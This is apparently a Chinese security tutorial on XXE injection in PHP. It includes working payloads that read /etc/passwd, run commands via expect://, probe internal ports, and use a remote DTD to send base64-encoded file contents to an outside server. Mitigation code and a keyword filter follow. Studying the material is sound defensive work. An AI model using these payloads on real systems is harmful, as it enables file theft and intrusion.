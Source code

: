 # 原创
：  XXE-XML外部实体注入

# XXE-XML外部实体注入

#### XXE-XML外部实体注入

## 环境

> 
PHP 7.0.30、Libxml 2.8.0（Libxml2.9.0以后默认不解析外部实体，对于PHP版本不影响XXE的利用）


## 原理介绍

> 
XML 被设计为传输和存储数据,其焦点是数据的内容，HTML 被设计用来显示数据，其焦点是数据的外观，HTML 旨在显示信息，而 XML旨在传输信息<br/> XML特点：XML 被设计用来结构化、存储以及传输信息，仅仅是纯文本，有能力处理纯文本的软件都可以处理 XML，XML允许创作者定义自己的标签和自己的文档结构，XML 是独立于软件和硬件的信息传输工具，所有现代浏览器都有读取和操作 XML 的内建 XML解析器，但是不同的浏览器解析的方法不一样的，如在IE中使用loadXML()方法，在其他浏览器中使用DOMParser<br/> loadXML()方法用于加载字符串文本，load()方法用于加载文件，解析器把XML 载入内存，然后把它转换为可通过 JavaScript 访问的 XML DOM 对象


## 漏洞危害

> 
- 读取任意文件<br/> file 协议：`file:///etc//passwd`<br/> php 协议：`php://filter/read=convert.base64-encode/resource=index.php`- 执行系统命令<br/> 部分情况会有，在特殊的配置环境下，如PHP环境中PHP的expect模块被加载到了易受攻击的系统或者能处理XML的应用中，就能执行命令，简单payload如下


```
&lt;?xml version="1.0" encoding="utf-8"?&gt; 
&lt;!DOCTYPE xxe [
&lt;!ELEMENT name ANY &gt;
&lt;!ENTITY xxe SYSTEM "expect://ifconfig" &gt;]&gt;
&lt;root&gt;
&lt;name&gt;&amp;xxe;&lt;/name&gt;
&lt;/root&gt;

```

> 
- 探测内网端口<br/> 借助漏洞实现内网探测，常见payload如下


```
&lt;?xml version="1.0" encoding="utf-8"?&gt; 
&lt;!DOCTYPE xxe [
&lt;!ELEMENT name ANY&gt;
&lt;!ENTITY xxe SYSTEM "http://192.168.199.100:80"&gt;]&gt;
&lt;root&gt;
&lt;name&gt;&amp;xxe;&lt;/name&gt;
&lt;/root&gt;

```

> 
- 攻击内网网站(dos或者直接吃服务器资源导致无法正常服务)


## 例子

### 有回显

> 



```
&lt;?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml-&gt;name;

```

> 



```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;!DOCTYPE xxe [
&lt;!ELEMENT name ANY &gt;
&lt;!ENTITY xxe SYSTEM "file:///etc/passwd" &gt;]&gt;
&lt;root&gt;
&lt;name&gt;&amp;xxe;&lt;/name&gt;
&lt;/root&gt;

```

### 无回显

> 
无回显的XXE利用必须借助外部服务器把回显内容带出来，这种的XXE也称为 blind XXE



```
&lt;?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom-&gt;loadXML($data);

```

> 
如果直接执行的话是没有任何回显的，可以使用http协议将请求发送到远程服务器上，从而获取文件内容<br/> 首先在远程服务器写入一个dtd文件，例如test.dtd，文件内容如下


```
注意：%号需要实体16进制编码为&amp;#x25;
&lt;!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd"&gt;
&lt;!ENTITY % int "&lt;!ENTITY &amp;#x25; send SYSTEM 'http://192.168.2.1/%file;'&gt;"&gt;

```

> 
利用Payload，将数据外带到服务端


```
&lt;!DOCTYPE convert [
&lt;!ENTITY % remote SYSTEM "http://192.168.2.1/test.dtd"&gt;
%remote;%int;%send;
]&gt;

```

> 
执行逻辑大概如下：
- 从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote先调用，调用后请求远程服务器上的test.dtd ，有点类似于将 test.dtd包含进来- %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件- 将 %file 的结果填入到 %send 以后 (因为实体的值中不能有 %, 所以将其转成html实体编码 &amp;#x25;)，- 再调用 %send; 把我们的读取到的数据以GET请求的方式发送到我们的服务器上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题


## 解决方案和建议

> 
- 使用开发语言提供的禁用外部实体的方法


```
PHP：
libxml_disable_entity_loader(true);

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

```

> 
- 过滤用户提交的XML数据


```
&lt;!DOCTYPE和&lt;!ENTITY，SYSTEM和PUBLIC

```

## 更进一步的学习XXE

> 
更进一步的学习XXE的相关知识和利用方式可以参考这篇文章中的内容：[链接地址](https://xz.aliyun.com/t/3357)

